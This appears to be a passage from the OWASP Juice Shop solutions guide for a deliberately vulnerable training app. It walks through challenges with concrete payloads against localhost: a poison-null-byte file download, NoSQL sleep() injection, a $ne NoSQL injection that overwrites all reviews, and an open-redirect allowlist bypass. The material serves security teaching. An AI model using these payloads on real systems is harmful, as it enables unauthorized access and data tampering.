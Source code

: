 ### **Access a misplaced SIEM signature file**

1. Use the *Poison Null Byte* attack described in [Access a developer's forgotten backup file](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_access_a_developers_forgotten_backup_file)…
2. …to download [http://localhost:3000/ftp/suspicious_errors.yml%2500.adoc](http://localhost:3000/ftp/suspicious_errors.yml%2500.adoc)

### **Let the server sleep for some time**

1. You can interact with the backend API for product reviews via the dedicated endpoints `/rest/products/reviews` and `/rest/products/{id}/reviews`
2. Get the reviews of the product with database ID 1: [http://localhost:3000/rest/products/1/reviews](http://localhost:3000/rest/products/1/reviews)
3. Inject a [`sleep(integer ms)` command](https://docs.mongodb.com/manual/reference/method/sleep/) by changing the URL into [http://localhost:3000/rest/products/sleep(2000)/reviews](http://localhost:3000/rest/products/sleep(2000)/reviews) to solve the challenge

To avoid *real* Denial-of-Service (DoS) issues, the Juice Shop will only wait for a maximum of 2 seconds, so [http://localhost:3000/rest/products/sleep(999999)/reviews](http://localhost:3000/rest/products/sleep(999999)/reviews) should not take longer than [http://localhost:3000/rest/products/sleep(2000)/reviews](http://localhost:3000/rest/products/sleep(2000)/reviews) to respond.

### **Update multiple product reviews at the same time**

1. Log in as any user to get your `Authorization` token from any subsequent request's headers.
2. Submit a PATCH request to [http://localhost:3000/rest/products/reviews](http://localhost:3000/rest/products/reviews) with
    - `{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }` as body
    - `application/json` as `Content-Type` header.
    - and `Bearer ?` as `Authorization` header, replacing the `?` with the token you received in step 1.
    
    ![Multiple review updated via NoSQL Injection](media/blog4/nosql_multiple-reviews-updated.png)
    
3. Check different product detail dialogs to verify that *all review texts* have been changed into `NoSQL Injection!`

### **Enforce a redirect to a page you are not supposed to redirect to**

1. Pick one of the redirect links in the application, e.g. [http://localhost:3000/redirect?to=https://github.com/juice-shop/juice-shop](http://localhost:3000/redirect?to=https://github.com/juice-shop/juice-shop) from the *GitHub*button in the navigation bar.
2. Trying to redirect to some unrecognized URL fails due to allowlist validation with `406 Error: Unrecognized target URL for redirect`.
3. Removing the `to` parameter ([http://localhost:3000/redirect](http://localhost:3000/redirect)) will instead yield a `500 TypeError: Cannot read property 'indexOf' of undefined` where the `indexOf` indicates a severe flaw in the way the allowlist works.
4. Craft a redirect URL so that the target-URL in `to` comes with an own parameter containing a URL from the allowlist, e.g. [http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/juice-shop/juice-shop](http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/juice-shop/juice-shop)
